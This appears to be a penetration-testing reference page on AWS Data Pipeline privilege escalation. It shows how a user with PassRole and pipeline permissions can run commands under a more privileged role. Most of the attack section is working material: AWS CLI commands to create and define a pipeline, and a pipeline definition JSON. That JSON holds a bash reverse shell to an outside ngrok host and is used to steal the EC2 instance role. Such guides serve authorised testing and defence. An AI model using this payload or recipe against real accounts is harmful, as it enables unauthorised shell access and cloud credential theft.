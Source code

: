 # AWS - Datapipeline Privesc

{{#include ../../../banners/hacktricks-training.md}}

## datapipeline

For more info about datapipeline check:

{{#ref}}
../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```

After pipeline creation, the attacker updates its definition to dictate specific actions or resource creations:

```json
{
  "objects": [
    {
      "id": "CreateDirectory",
      "type": "ShellCommandActivity",
      "command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
      "runsOn": { "ref": "instance" }
    },
    {
      "id": "Default",
      "scheduleType": "ondemand",
      "failureAndRerunMode": "CASCADE",
      "name": "Default",
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_datapipeline"
    },
    {
      "id": "instance",
      "name": "instance",
      "type": "Ec2Resource",
      "actionOnTaskFailure": "terminate",
      "actionOnResourceFailure": "retryAll",
      "maximumRetries": "1",
      "instanceType": "t2.micro",
      "securityGroups": ["default"],
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_ec2_profile_instance"
    }
  ]
}
```

> [!NOTE]
> Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.
>
> Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).

```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
    --pipeline-definition file:///pipeline/definition.json
```

The **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
